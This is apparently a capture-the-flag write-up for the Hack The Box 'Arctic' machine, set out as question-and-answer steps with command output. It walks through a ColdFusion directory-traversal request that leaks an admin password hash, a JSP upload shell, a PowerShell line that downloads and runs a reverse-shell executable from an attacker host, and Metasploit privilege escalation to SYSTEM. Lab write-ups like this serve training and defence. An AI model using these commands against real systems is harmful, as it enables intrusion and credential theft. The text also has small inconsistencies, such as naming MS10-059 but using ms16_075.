

# Arctic


# Context

Lab link: [https://app.hackthebox.com/machines/Arctic](https://app.hackthebox.com/machines/Arctic)

Suggested tools: `nmap`, `curl`, `searchsploit`, `python3`, `msfvenom`, `msfconsole` (`exploit/multi/handler`, `post/multi/recon/local_exploit_suggester`, `exploit/windows/local/ms16_075_reflection_juicy`), `nc`

Tactics: Reconnaissance, Credential Access, Initial Access, Execution, Discovery, Privilege Escalation, Collection

# Scenario

Arctic is an easy Windows machine that involves straightforward exploitation with some minor challenges. The process begins by troubleshooting the web server to identify the correct exploit. Initial access can be gained either through an unauthenticated file upload in Adobe `ColdFusion`. Once a shell is obtained, privilege escalation is achieved using the MS10-059 exploit.

# Questions

Q1- On what TCP port is there an HTTP server running?

Answer: 8500

Reason: An nmap full-port scan of `arctic.htb` revealed a JRun web server on `8500/tcp` alongside Microsoft RPC on `135/tcp` and `49154/tcp`, with no response on all other ports, consistent with the box's Adobe `ColdFusion`-based web stack running on its default JRun port.

```bash
$ nmap -sC -sV -p- arctic.htb -v -oN nmap.txt 
[...]
Scanning arctic.htb (10.129.129.80) [65535 ports]
Discovered open port 135/tcp on 10.129.129.80
Discovered open port 8500/tcp on 10.129.129.80
Discovered open port 49154/tcp on 10.129.129.80
[...]
NSE: Script scanning 10.129.129.80.
Host is up (0.035s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  http    JRun Web Server
|_http-title: Index of /
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Q2- What is the web application development platform in use by the site?

Answer: ColdFusion

Reason: The nmap scan's `http-title: Index of /` on `8500/tcp` paired with the JRun Web Server banner confirms Adobe `ColdFusion`, which by default runs on JRun as its servlet engine and serves management/admin paths such as `/CFIDE/`.

Q3- What is the 2010 CVE ID for a directory traversal vulnerability in `enter.cfm`?

Answer: CVE-2010-2861

Reason: `searchsploit` resolved the earlier `multiple/remote/14641.py` hit to `CVE-2010-2861` (OSVDB-67047), a directory traversal in several `ColdFusion` admin-facing `.cfm` pages including `/CFIDE/administrator/enter.cfm`. The exploit's embedded comment shows the traversal payload reaching `ColdFusion8/lib/password.properties` via the `locale` parameter, with a null-byte (`%00en`) appended to terminate the expected file extension.

```bash
$ searchsploit -m 14641                      
  Exploit: Adobe ColdFusion - Directory Traversal
      URL: https://www.exploit-db.com/exploits/14641
     Path: /usr/share/exploitdb/exploits/multiple/remote/14641.py
    Codes: CVE-2010-2861, OSVDB-67047
 Verified: True
File Type: HTML document, ASCII text
Copied to: /home/kali/ctf_stuff/offsec/htb_arctic/14641.py

$ grep cfm 14641.py 
# http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
# LLsecurity added another admin page filename: "/CFIDE/administrator/enter.cfm"
filenames = ("/CFIDE/wizards/common/_logintowizard.cfm", "/CFIDE/administrator/archives/index.cfm", "/cfide/install.cfm", "/CFIDE/administrator/entman/index.cfm", "/CFIDE/administrator/enter.cfm")
```

Q4- Which metasploit reconnaissance module can be used to list possible privilege escalation paths on a compromised system?

Answer: `local_exploit_suggester`

Reason: The `post/multi/recon/local_exploit_suggester` module runs against an existing Meterpreter session and checks the target's OS, architecture, and patch level against Metasploit's local exploit modules, reporting which privilege escalation exploits are likely to succeed without manually checking each one.

Q5- What is the password for the ColdFusion `admin` login?

Answer: `happyday`

Reason: Exploiting `CVE-2010-2861` against `/CFIDE/administrator/enter.cfm` with the `locale` parameter set to a traversal path plus a null byte (`%00en`) retrieved `ColdFusion8/lib/password.properties`, which contained a SHA1 hash in the `password=` field. Cracking that hash resolved to the plaintext `happyday`, the ColdFusion administrator credential.

```bash
$ curl -isk http://arctic.htb:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en | grep password
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

# Easy SHA1 hash
Hash	                                    Type	Result
2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03	sha1	happyday
```

Q6- What kind of file can be uploaded to work as a webshell on Arctic?

Answer: `jsp`

Reason: ColdFusion 8 runs on top of the `JRun` Java servlet engine, which natively executes `.jsp` files. The CF administrator panel's scheduled-tasks feature allows specifying a remote URL to fetch and a local path/filename to save it under within the webroot, letting an authenticated admin plant a `.jsp` webshell that JRun will execute directly as a Java servlet.

Q7- What user is the webserver running as? Give the username without the domain.

Answer: `tolis`

Reason: CVE-2009-2265 (unauthenticated upload via FCKeditor's `filemanager` RCE, using a directory-as-file trick so JRun executes `<uuid>.jsp` as a servlet) was used to plant a Java reverse-shell payload on the ColdFusion server, returning a shell as `arctic\tolis`. The downloaded exploit script (`50057.py`) required patching before use: its `execute_payload()` and `listen_connection()` functions originally took no arguments but referenced `rhost`, `rport`, `filename`, and `lport` as if they were globals. Because Python 3.14's `multiprocessing` defaults to the `spawn` start method on Linux, each worker process re-imports the module in a fresh interpreter and does not inherit the parent's runtime variables, causing `NameError` on every reference. The fix added explicit parameters to both functions (`execute_payload(rhost, rport, filename)` and `listen_connection(lport)`) and passed the matching values through `args=(...)` tuples on each corresponding `Process(...)` call, so the values are serialized and handed to the child processes instead of relying on implicit global inheritance.

```bash
# Quick patching the relevant script at 50057.py

C:\ColdFusion8\runtime\bin>whoami /priv
whoami /priv                                                                                                                                            
                                                                                                                                                        
PRIVILEGES INFORMATION                                                                                                                                  
----------------------                                                                                                                                  
                                                                                                                                                        
Privilege Name                Description                               State                                                                           
============================= ========================================= ========                                                                        
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled                                                                         
SeImpersonatePrivilege        Impersonate a client after authentication Enabled                                                                         
SeCreateGlobalPrivilege       Create global objects                     Enabled                                                                         
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled                                                                        
                                                                                                                                                        
C:\ColdFusion8\runtime\bin>whoami                                                                                                                       
whoami
arctic\tolis
```

Q8- Submit the flag located on the `tolis` user's desktop.

Answer: [REDACTED]

Reason: The shell obtained as `arctic\tolis` via the CVE-2009-2265 JSP upload had sufficient access to read the user flag directly from its desktop directory.

```bash
c:\Users\tolis\Desktop>type user.txt
type user.txt
```

Q9- Have any hotfixes been applied to this system?

Answer: No

Reason: `systeminfo` on `arctic.htb` confirms Windows Server 2008 R2 Standard, build `6.1.7600`, with `Hotfix(s)` reported as `N/A`, meaning no patches have ever been applied. This completely unpatched state, combined with the `SeImpersonatePrivilege` already observed as `tolis`, points toward a known Windows kernel/token privilege escalation exploit for this exact build.

```bash
c:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          15/11/2026, 1:40:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2445 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.139 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.310 MB
Virtual Memory: In Use:    975 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.10.2
                                 IP address(es)
                                 [01]: 10.129.129.80
```

Q10- Submit the flag located on the administrator's desktop.

Answer: [REDACTED]

Reason: With a Meterpreter session as `arctic\tolis` and `SeImpersonatePrivilege` enabled, `exploit/windows/local/ms16_075_reflection_juicy` was run against the already-confirmed unpatched Windows Server 2008 R2 target. The module injected its exploit DLL into a spawned `notepad.exe` process, abusing a reflection-based NTLM relay flaw to escalate the token, returning a new Meterpreter session running as `NT AUTHORITY\SYSTEM`. Dropping to a shell from that session and reading the administrator's desktop confirmed full `SYSTEM`-level access.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.17.7 lport=4242 -f exe > shell.exe

$ msfconsole -q                                                                             
msf > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 10.10.17.7
lhost => 10.10.17.7
msf exploit(multi/handler) > set lport 4242
lport => 4242
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.10.17.7:4242

$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

C:\ColdFusion8\runtime\bin> powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.10.17.7:8000/shell.exe','shell.exe')"

C:\ColdFusion8\runtime\bin>.\shell.exe
.\shell.exe

meterpreter > getuid                                                                                                                                    
Server username: ARCTIC\tolis 

msf post(multi/recon/local_exploit_suggester) > run
[*] 10.129.129.80 - Collecting local exploits for x86/windows...
[*] 10.129.129.80 - 267 exploit checks are being tried...
[...]
[+] 10.129.129.80 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable. Version Windows Server 2008 R2 appears vulnerable
[...]

msf exploit(windows/local/ms16_075_reflection_juicy) > run
[*] Started reverse TCP handler on 10.10.17.7:4445 
[+] Target appears to be vulnerable (Windows Server 2008 R2)
[*] Launching notepad to host the exploit...
[+] Process 3388 launched.
[*] Reflectively injecting the exploit DLL into 3388...
[*] Injecting exploit into 3388...
[*] Exploit injected. Injecting exploit configuration into 3388...
[*] Configuration injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203450 bytes) to 10.129.129.80
[*] Meterpreter session 2 opened (10.10.17.7:4445 -> 10.129.129.80:49949) at 2026-11-13 13:53:33 -0500

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 2936 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd c:\users\administrator\desktop
cd c:\users\administrator\desktop

c:\Users\Administrator\Desktop>type root.txt
type root.txt
```

# Attack Architecture



# Attack Chain

| Stage | Detail | MITRE |
| --- | --- | --- |
| Reconnaissance | Full TCP port scan of `arctic.htb` revealed 135/tcp (MSRPC), 8500/tcp (JRun/ColdFusion), 49154/tcp (MSRPC) | T1595.002 |
| Initial Access | CVE-2010-2861 directory traversal via locale parameter on `/CFIDE/administrator/enter.cfm` retrieved password.properties, leaking a SHA1 hash cracked to happyday | T1190 |
| Credential Access | Cracked SHA1 hash `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` resolved to plaintext ColdFusion admin password happyday | T1552 |
| Execution | CVE-2009-2265 unauthenticated FCKeditor filemanager upload abused a directory-as-file trick to plant and execute a .jsp reverse shell via JRun | T1505.003 |
| Initial Foothold | Reverse shell callback returned as `arctic\tolis`; upgraded to Meterpreter via msfvenom payload + multi/handler | T1059.003 |
| Discovery | `whoami /priv` confirmed SeImpersonatePrivilege enabled; systeminfo confirmed unpatched Windows Server 2008 R2 (Hotfix(s): N/A) | T1082 |
| Privilege Escalation | local_exploit_suggester flagged multiple viable local exploits; exploit/windows/local/ms16_075_reflection_juicy abused reflective DLL injection into notepad.exe to escalate to `NT AUTHORITY\SYSTEM` | T1134 |
| Collection | Read user.txt from tolis's desktop and root.txt from Administrator's desktop | T1005 |

## Attack Tree

```bash
HTB Arctic (arctic.htb)
│
├── 8500/tcp -- JRun / Adobe ColdFusion 8
│   └── CVE-2010-2861 directory traversal on /CFIDE/administrator/enter.cfm
│       └── leak password.properties -> SHA1 hash -> cracked to happyday
│           └── CVE-2009-2265 unauthenticated .jsp upload RCE
│               └── shell as arctic\tolis
│                   │
│                   ├── Desktop\user.txt
│                   │   └── [USER FLAG]
│                   │
│                   └── SeImpersonatePrivilege + unpatched 2008 R2
│                       └── ms16_075_reflection_juicy
│                           └── NT AUTHORITY\SYSTEM
│                               └── Administrator\Desktop\root.txt
│                                   └── [ROOT FLAG]
```

# Artifacts

| Category | Type | Value |
| --- | --- | --- |
| Network | Target host | `arctic[.]htb` |
|  | Open ports | 135/tcp, 8500/tcp, 49154/tcp |
| Vulnerability | Directory traversal | CVE-2010-2861 |
|  | Unauthenticated upload RCE | CVE-2009-2265 |
|  | Local privesc | ms16_075_reflection_juicy |
| Credential Access | Leaked file | `ColdFusion8/lib/password.properties` |
|  | SHA1 hash | `2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03` |
|  | Cracked password | happyday |
| Dropped File | Webshell | `<uuid>.jsp` |
| Host Indicators | Initial access user | `arctic\tolis` |
|  | Escalated user | `NT AUTHORITY\SYSTEM` |
| Flags | User flag | [REDACTED] |
|  | Root flag | [REDACTED] |

# Lab Insights

1. **Unauthenticated information disclosure via path traversal defeats credential secrecy entirely.** `CVE-2010-2861`'s `locale` parameter traversal on `enter.cfm` read `password.properties` straight off disk with no authentication, turning a config-file storage decision into a full credential leak — T1552.
2. **Legacy app-server execution models widen the attack surface beyond the app's own language.** `ColdFusion` running on `JRun` meant `.jsp` files were just as executable as `.cfm`, so an upload filter only validating against expected `ColdFusion` extensions missed a second native execution path entirely — T1505.003.
3. **Zero hotfixes on an end-of-life OS is a privesc oracle, not just a vulnerability.** `systeminfo` reporting `Hotfix(s): N/A` on `Windows Server 2008 R2` meant virtually every post-2010 Windows local-privilege-escalation exploit was still viable, collapsing the privesc phase to running `local_exploit_suggester` and picking from a long list — T1082.
4. **A single enabled privilege (`SeImpersonatePrivilege`) is often sufficient for full SYSTEM compromise.** Token-impersonation-class exploits like `ms16_075_reflection_juicy` don't need a kernel bug, just that one commonly-granted service-account privilege — T1134.